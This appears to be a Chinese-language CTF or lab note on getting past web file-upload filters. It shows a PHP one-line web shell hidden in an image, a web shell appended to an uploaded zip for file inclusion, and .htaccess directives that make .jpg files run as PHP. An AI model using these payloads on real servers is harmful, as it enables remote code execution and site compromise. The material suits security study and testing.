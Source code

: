 - 该代码会生成1.png，其中包含<?=$_GET[0]($_POST[1]);?>
- 上传该图片，用post发送数据包，0=system，1=ls

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668485846868-01add022-fc14-4f54-bf02-6de59d3352a5.png#averageHue=%23f7f7f7&clientId=u6a08d332-4457-4&from=paste&height=422&id=CcrhC&originHeight=843&originWidth=2322&originalType=binary&ratio=1&rotation=0&showTitle=false&size=76423&status=done&style=none&taskId=uf3201ace-cc65-407d-aca7-b39ab715dac&title=&width=1161)<br />**注意点：上传post数据包，不能只是把get改成post，要用hackbar执行之后抓包**

#### jpg二次渲染

### 文件包含

- 页面要求上传一个zip文件，上传后返回结果如下

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1668518680928-0182ccf2-49cc-4f49-b304-731b654ee4c9.png#averageHue=%23f2f2f2&clientId=uf6afd272-8243-4&from=paste&height=407&id=u5fc78cd9&originHeight=814&originWidth=2450&originalType=binary&ratio=1&rotation=0&showTitle=false&size=83349&status=done&style=none&taskId=u766e2e2e-fde5-4d36-b6d8-6fcd7ac1c76&title=&width=1225)

- 这里看到被解析了，且是压缩包的内容，那说明可能存在文件包含
- 直接用记事本打开压缩包，在最后添加一句话木马，再次上传

### .htaccess

- 使用该功能需要Apache在配置文件中设置AllowOverride All , 并且启用Rewrite模块 
- .htaccess文件是Apache服务器下的一个配置文件。其主要负责相关目录下的网页配置，即：在一个特定的文档目录中放置一个包含一个或多个指令的文件来对网页进行配置。
- .htaccess文件的作用域为**其所在目录与其所有的子目录**，不过若是子目录也存在.htaccess文件，会覆盖父目录的.htaccess文件

```shell
<ifModule mime_module>

AddHandler php5-script .jpg
<!-- 将.jpg文件按照php代码进行解析执行 -->

AddType application/x-httpd-php .jpg
<!-- 将.jpg文件按照php代码进行解析执行 -->

Sethandler application/x-httpd-php
<!-- 将该目录及子目录下的文件均按照php文件解析执行 -->

</ifModule>
<!-- 该种匹配方式并不推荐，极易造成误伤 -->


<FilesMatch "muma.jpg">

Sethandler application/x-httpd-php
<!-- 将匹配到的 muma.jpg 文件按照php解析执行 -->

Addhandler php5-script .jpg
<!-- 将匹配到的 muma.jpg 文件按照php解析执行 -->

</FilesMatch>
<!-- 该种匹配方式较为精准，不会造成大批的误伤情况 -->

```

- 如果上传后报错，可能是需要改Content-type
